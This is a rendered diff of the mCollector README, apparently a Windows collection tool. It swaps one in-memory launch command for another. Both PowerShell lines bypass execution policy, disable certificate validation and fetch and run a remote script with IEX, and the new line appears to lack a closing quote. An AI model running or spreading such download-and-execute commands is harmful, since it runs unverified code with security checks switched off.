

Before and after one commit to cMardikas/mCollector, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -30,8 +30,9 @@ On the Windows target, open `cmd` or `Run` (Win+R):
 ```
 
 Or run the collection script directly in memory:
+Trust self made cert & force TLS12
 ```
-powershell -ep bypass -c "[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;[Net.ServicePointManager]::ServerCertificateValidationCallback={$true};IEX(New-Object Net.WebClient).DownloadString('https://mytt.local/mCollector.ps1')"
+powershell -ep bypass -c "Add-Type 'using System.Net;using System.Net.Security;using System.Security.Cryptography.X509Certificates;public class T:ICertificatePolicy{public bool CheckValidationResult(ServicePoint s,X509Certificate c,WebRequest r,int p){return true;}}';[Net.ServicePointManager]::CertificatePolicy=New-Object T;[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;IEX(New-Object Net.WebClient).DownloadString('https://mytt/mCollector.ps1')
 ```
 
 ## Prerequisites
````
